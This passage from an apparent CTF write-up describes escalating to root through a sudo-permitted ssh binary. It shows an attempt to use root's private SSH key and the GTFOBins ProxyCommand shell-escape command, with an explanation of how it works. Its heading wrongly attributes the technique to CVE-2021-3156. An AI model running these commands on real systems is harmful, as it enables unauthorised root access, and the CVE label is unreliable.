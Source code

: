 #### Exploit "CVE-2021-3156" aka "Baron Samedit"

##### Search

I tried one or two hours to find some way to exploit the ssh access. My best bet was to access root's private ssh key like so:

``` shell
sudo /usr/bin/ssh -i /root/.ssh/id_rsa root@localhost
```

But unfortunately there was no private key available to steal.

Luckily there are very smart people sharing clever ideas via the internet. So i found this exploit using [gtfobins](https://gtfobins.github.io/).
``` shell
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


##### Explanation 

ProxyCommand allows execution of a command in order to enable a proxy connection.
```shell
Host myserver HostName remote.example.com ProxyCommand ssh user@proxy.example.com -W %h:%p
```

a shell is opened and kept alive in combination with:
``` shell
;sh 0<&2 1>&2
```

standard in and output are redirected. 
Through the previous Sudo command, this shell is started with root rights and it remains open through the redirection.



## Lessons learned

* There is never enough web enumeration
* exposed sudo execution rights on binaries are mostly an easy win
